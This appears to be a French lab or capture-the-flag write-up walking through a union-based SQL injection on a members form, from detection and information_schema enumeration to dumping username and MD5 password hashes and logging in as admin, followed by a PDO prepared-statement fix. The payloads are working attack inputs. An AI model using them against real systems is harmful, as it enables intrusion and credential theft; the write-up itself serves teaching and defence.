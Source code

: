 # SQL INJECTION ADMIN MEMBERS

## Etape 1: detection de la faille sql


Dans le formulaire des members, taper la commande suivante:
```
1'
```
Cela teste si le formulaire contient une erreur Mysql.


## Etape 2: detection de la version mySql
Pour connaitre la version de mysql, il suffit de taper la commande suivante:
```
1 or 1=1 union all select 1,convert(@@version using latin1)
```
On s'apercois que la version est > 5, si la version est < 5, alors il va falloir deviner les tables, ce aui n'est pas le cas ici.
Pour cela on a besoin de information_schema, il contient toutes les tables et colonnes de la base de données.


## Etape 3: DETECTION DES TABLES
Pour avoir le schema de la BDD et les noms de ses tables, on utilisent table_schema et  table_name

```
1 or 1=1 union all select table_schema, table_name from information_schema.tables
```
On demande a avoir le shema de la base de donée c'est a dire toute les tables qui sont liée avec differents utilisateurs ainsi que les noms des tables.
Ce qui nous interresent c'est la table Members_Brute_Force liée avec la table db_default.

## Etape 4: DETECTION DES COLUMNS


```
1 or 1=1 union all select table_name, column_name from information_schema.columns
```
On s'apercoit que la column username et password dependent de la table db_default.

## Etape 5: EXPLOIT

Le script d'exploit ressemblera alors a:

```
1 or 1=1 union all select password, username from Member_Brute_Force.db_default

```
root et admin on le meme hash md5: 3bf1114a986ba87ed28fc1b5884fc2f8, il faut decrypter le hash, cela correspond a shadow.
Il suffit maintenant de se connecter avec root ou admin.


## Comment s'en premunir ?

Utiliser la programmation php PDO et utilisé des requetes préparées. exemple:  

```
<?php

// On récupère les variables envoyées par le formulaire
$login = $_POST['login'];
$password = $_POST['password'];

// Connexion à la BDD en PDO
try { $bdd = new PDO('mysql:host=localhost;dbname=bdd','root',''); }
catch (Exeption $e) { die('Erreur : ' .$e->getMessage())  or die(print_r($bdd->errorInfo())); }

// Requête SQL sécurisée
$req = $bdd->prepare("SELECT * FROM utilisateurs WHERE login= ? AND password= ?");
$req->execute(array($login, $password));

?>

```
